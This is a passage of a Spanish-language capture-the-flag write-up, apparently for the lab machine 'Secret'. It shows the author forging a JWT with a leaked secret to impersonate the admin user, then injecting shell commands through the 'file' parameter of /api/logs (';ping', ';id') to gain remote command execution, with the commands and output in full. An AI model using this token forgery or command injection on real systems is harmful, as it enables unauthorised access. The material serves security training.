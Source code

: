 Lo siguiente es crear el token para **theadmin**:
```
>>> j = jwt.decode(token, secret, algorithms=["HS256", "RS256"])
>>> j['name'] = ['theadmin']
>>> jwt.encode(j, secret)

'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2NDIxYTI2ZjQ3ZjZlNTA0NjNhNjdmOTQiLCJuYW1lIjpbInRoZWFkbWluIl0sImVtYWlsIjoiZ3VpbGxlcm1vQHNlY3JldC5jb20iLCJpYXQiOjE2Nzk5MjYwOTR9.puIuQaDX9t0udVwZT7NTzPrNNe8XF8h0A6soVFRJZ0M'
```
j será el listado de id, name, email e iat. Siguiente comando cambio la parte del nombre por el "theadmin". Tercer comando para encodear y conseguir el jwt.

Comprobemos si somos ese usuario:
```
❯ curl -s -H 'auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2NDIxYTI2ZjQ3ZjZlNTA0NjNhNjdmOTQiLCJuYW1lIjpbInRoZWFkbWluIl0sImVtYWlsIjoiZ3VpbGxlcm1vQHNlY3JldC5jb20iLCJpYXQiOjE2Nzk5MjYwOTR9.puIuQaDX9t0udVwZT7NTzPrNNe8XF8h0A6soVFRJZ0M' http://10.10.11.120/api/priv | jq

{
  "creds": {
    "role": "admin",
    "username": "theadmin",
    "desc": "welcome back admin"
  }
}
```
## Explotación - Parte 2
¡ Y sí !!. Bien...¿ y ahora qué hacemos siendo theadmin?. Igual lo tendría que haber dicho antes no sé..peeero en el mismo private.js encontré esto:

![Source-Exec]({{ 'assets/img/writeups/Secret/sourceExec.png' | relative_url }}){: .center-image }

Ese exec tiene muy mala pinta y estoy pensando en meter en el parámetro file un ; y luego intentar ejecutar comandos. 

Lanzaré un ping por ejemplo para comprobar RCE.

```
❯ curl -s -H 'auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2NDIxYTI2ZjQ3ZjZlNTA0NjNhNjdmOTQiLCJuYW1lIjpbInRoZWFkbWluIl0sImVtYWlsIjoiZ3VpbGxlcm1vQHNlY3JldC5jb20iLCJpYXQiOjE2Nzk5MjYwOTR9.puIuQaDX9t0udVwZT7NTzPrNNe8XF8h0A6soVFRJZ0M' 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.9'

"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\nPING 10.10.14.9 (10.10.14.9) 56(84) bytes of data.\n64 bytes from 10.10.14.9: icmp_seq=1 ttl=63 time=123 ms\n\n--- 10.10.14.9 ping statistics ---\n1 packets transmitted, 1 received,
```
Tenemos RCE (Remote Command Execution).

Curl es una maravilla, también se puede hacer de esta manera, esta vez lanzamos comando id:
```
❯ curl -s -G "http://10.10.11.120/api/logs" --data-urlencode "file=;id" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2NDIxYTI2ZjQ3ZjZlNTA0NjNhNjdmOTQiLCJuYW1lIjpbInRoZWFkbWluIl0sImVtYWlsIjoiZ3VpbGxlcm1vQHNlY3JldC5jb20iLCJpYXQiOjE2Nzk5MjYwOTR9.puIuQaDX9t0udVwZT7NTzPrNNe8XF8h0A6soVFRJZ0M" | jq

"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\nuid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```
La opción -G y --data-urlencode van de la mano, esta opción te urlencodea la data y así no tienes que ir cambiando mases por espacios como en la instrucción anterior.
